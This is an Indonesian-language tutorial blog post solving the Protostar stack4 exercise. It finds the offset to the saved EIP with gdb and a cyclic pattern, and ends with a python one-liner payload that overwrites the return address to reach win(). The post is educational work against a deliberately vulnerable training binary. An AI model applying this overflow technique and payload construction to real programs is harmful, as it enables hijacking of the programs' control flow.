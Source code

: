 ```yaml
---
layout: post
title: "Protostar: stack4"
date: 2020-07-09 21:07:03 +0700
categories: [reversing, protostar]
---
```


stack4 dapat ditemukan pada directory `/opt/protostar/bin/` bersama dengan challenge lainnya. Sebelum mengerjakan challenge ini baca terlebih dahulu deskripsi dan hints nya [disini](https://exploit-exercises.lains.space/protostar/stack4/). Pada halaman tersebut diberitahukan jika challenge kali ini kita akan "benar - benar" menimpa **EIP**. [EIP](http://www.c-jump.com/CIS77/ASM/Instructions/I77_0040_instruction_pointer.htm) sendiri merupakan bagian register yang selalu berisikan alamat dari instruksi yang akan dieksekusi selanjutnya. Pengertian dan pembahasan lebih lanjut dari EIP dapat dibaca di [wikipedia](wikipedia.org) laman [Program Counter](https://en.wikipedia.org/wiki/Program_counter).

Pembeda utama dari challenge ini dengan [sebelumnya](/belajar-reversing-protostar-stack3/) ialah kali ini input untuk overflow kita yang sebelumnya terdiri dari **ukuran buffer** + **alamat fungsi** menjadi **ukuran buffer** + **padding** + **alamat fungsi** dengan padding merupakan jarak antara buffer dengan EIP. Mari kita cek dulu berkas stack4 dengan `file` seperti biasa.

```bash
file stack4
```

output:
![output dari file](/images/protostar-stack4-1.png)

Beruntung sekali stack4 ini tidak di strip, sehingga memudahkan bagi kita dalam menganalisis stack4. Sekarang mari kita tengok source codenya.

```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

void win()
{
  printf("code flow successfully changed\n");
}

int main(int argc, char **argv)
{
  char buffer[64];

  gets(buffer);
}
```

Lebih singkat dari stack3 dan fungsi tujuan kita masih sama, **win()**. Dengan **objdump** mari kita cari alamat fungsi main.

```bash
objdump -D stack4 | grep win
```

opsi -D berguna untuk mendisassembly stack4, selengkapnya dapat dibaca di manual dari objdump, `man objdump`. **grep** digunakan untuk memfilter output agar hanya menampilkan baris yang terdapat string 'win'.

output:
![output dari objdump](/images/protostar-stack4-2.png)

Fungsi win terdapat pada alamat _080483f4_. Untuk mencari padding kita akan menggunakan **gdb**.

```bash
gdb -q stack4
set disassembly-flavor intel
disas main
```

Baris perintah pertama untuk meload stack4 ke gdb dengan mode quiet. Baris kedua digunakan untuk menginstruksikan gdb untuk menampilkan kode assembly dalam syntax intel. Baris selanjutnya digunakan untuk melihat daftar fungsi yang ada dan dipakai pada stack4. Baris terakhir ialah untuk mendisassembly fungsi main.

![meload stack4 kedalam gdb dan mendisassembly fungsi main](/images/protostar-stack4-3.png)

Dengan gdb kita juga dapat mengetahui alamat dari fungsi main. Gunakan `info function` untuk menampilkan daftar fungsi. `disas win` untuk mendisassembly fungsi win dan mengetahui alamatnya (alamat pertama pada hasil disassembly fungsi win).

```nasm
Dump of assembler code for function main:
0x08048408 <main+0>:    push   ebp
0x08048409 <main+1>:    mov    ebp,esp
0x0804840b <main+3>:    and    esp,0xfffffff0
0x0804840e <main+6>:    sub    esp,0x50
0x08048411 <main+9>:    lea    eax,[esp+0x10]
0x08048415 <main+13>:   mov    DWORD PTR [esp],eax
0x08048418 <main+16>:   call   0x804830c <gets@plt>
0x0804841d <main+21>:   leave
0x0804841e <main+22>:   ret
End of assembler dump.
```

Diatas merupakan hasil disassembly fungsi main. Yang kita lakukan selanjutnya ialah memasang **breakpoint**. Seperti namanya breakpoint merupakan poin berhenti, digunakan untuk mem"pause" program. Dalam hal ini kita akan memasang break/pause pada saat pemanggilan fungsi **gets**. Cara memasangnya ialah dengan menggunakan perintah berikut.

```c
break *0x08048418
```

break diikuti dengan asterisk (\*) dan alamat dimana kita akan memasang break, saat pemanggilan fungsi gets.

![break *0x08048418](/images/protostar-stack4-4.png)

Gunakan `run` untuk menjalankan program, lalu `ni` untuk lanjut satu step. Program akan meminta input. Kita akan menggunakan input berpola, tujuannya untuk mempermudah kita dalam mengetahui ukuran padding. Kita akan menggunakan web [https://zerosum0x0.blogspot.com/2016/11/overflow-exploit-pattern-generator.html](https://zerosum0x0.blogspot.com/2016/11/overflow-exploit-pattern-generator.html) untuk men _generate_ kan pattern input. Cukup 100 karakter saja, karena ukuran buffer juga cuma 64 seharusnya 100 sudah cukup.

![generate pattern](/images/protostar-stack4-5.png)

Lalu gunakan hasil generatenya sebagai input.

![input pattern](/images/protostar-stack4-6.png)

Selanjutnya kita akan melihat isi **stack**. Gunakan perintah `info frame` dan pada bagian bawah gdb akan menunjukan dimana `eip`. Gunakan `x/s` untuk mengintip isi eip dan menampilkannya dalam string.

output:
![isi eip](/images/protostar-stack4-7.png)

Sebelum lanjut akan saya jelaskan perintah - perintah yang telah kita masukkan. **run** digunakan untuk menjalankan program dalam mode _debug_, kita juga dapat menggunakan argumen, me redirect standard input output dsb. **ni** digunakan untuk berjalan satu instruksi, namun tidak masuk pada **subroutine calls**, maksudnya ialah kita tidak masuk pada fungsi yang dipanggil melainkan lanjut saja. Selain ni terdapat juga **si**, jika menggunakan si ini kita lanjut satu instruksi juga akan masuk kedalam **subroutine calls**. Misalnya pada saat pemanggilan fungsi gets, jika kita menggunakan ni kita hanya akan menjalankan gets namun tidak masuk pada fungsi gets, jika kita menggunakan si kita akan masuk. Semoga masuk akal. Selanjutnya kita menggunakan **info frame** digunakan untuk melihat stack "saat itu". **x/s** digunakan untuk examine dalam string, selain string juga dapat dalam decimal, hex dan juga dapat diatur jumlahnya. Semua penjelasan perintah diatas dapat dilihat dengan menggunakan `help` diikuti perintah yang ingin diketahui maksudnya.

![help gdb](/images/protostar-stack4-8.png)

Kembali lagi ke isi eip, salin isi eip (_c5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad_) lalu masukkan ke web [https://zerosum0x0.blogspot.com/2016/11/overflow-exploit-pattern-generator.html](https://zerosum0x0.blogspot.com/2016/11/overflow-exploit-pattern-generator.html) untuk mengetahui ukuran buffer + padding.

![find overflow offset](/images/protostar-stack4-9.png)

76 adalah ukuran buffer + padding. Selanjutnya kita akan keluar dari gdb lalu menjalankan stack4 dengan input random sebanyak 76 karakter diikuti alamat fungsi win. Untuk memasukkannya kita akan menggunakan bantuan python. Sekali lagi jangan lupakan bahwa protostar ialah little endian.

```bash
q #untuk keluar gdb
y #untuk keluar gdb
python -c 'print("A"*76 + "\xf4\x83\x04\x08")' | ./stack4
```

output:
![code flow successfully changed](/images/protostar-stack4-10.png)

Berhasil! Sekali lagi kita telah berhasil mengubah alur program.
